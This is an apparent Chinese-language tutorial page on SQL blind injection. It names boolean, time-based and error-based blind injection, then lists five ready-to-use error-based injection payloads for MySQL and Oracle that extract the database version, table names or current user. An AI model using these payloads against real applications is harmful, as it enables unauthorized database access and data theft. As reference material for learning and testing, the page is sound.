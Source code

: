 ```yaml
---
description: 盲注是不能通过直接显示的途径来获取数据库数据的方法。
---
```


# SQL盲注

## 盲注

在盲注中，攻击者根据其返回页面的不同来判断信息（可能是页面内容的不同，也可以是响应时间不同）。一般情况下，盲注可分为三类：

①布尔盲注 ②时间盲注 ③报错盲注



## 常见报错注入函数

1.floor\(Mysql\): and\(select 1 from \(select count\(\*\), concat\(version\(\), floor\(rand\(0\)\*2\)\)x from information\_schema. tables group by x\)a\);

```sql
and(select 1 from (select count(*), concat(version(), floor(rand(0)*2))x from information_schema. tables group by x)a);
```

2.Extractvalue\(Mysql\): and extractvalue\(1, concat\(0x5c,\(select table\_name from information\_schema.tables limit 1\)\);

```sql
and extractvalue(1,concat(0x5c,(select table_name from information_schema.tables limit 1));
```

3.Updatexml\(Mysql\): and 1=\(updatexml\(1,concat\(0x3a,\(select user\(\)\)\),1\)\)

```sql
and 1=(updatexml(1,concat(0x3a,(select user())),1))
```

4.EXP: Exp\(~\(select \* from\(select user\(\)\)a\)\)

```sql
Exp(~(select * from(select user())a))
```

5.UTL\_INADDR. get\_host\_address\(Oracle\): and 1=utl\_inaddr.get\_host\_address\(\(select banner\(\) from sys.v\_$version where rownum=1\)\)

```sql
and 1=utl_inaddr.get_host_address((select banner() from sys.v_$version where rownum=1));
```



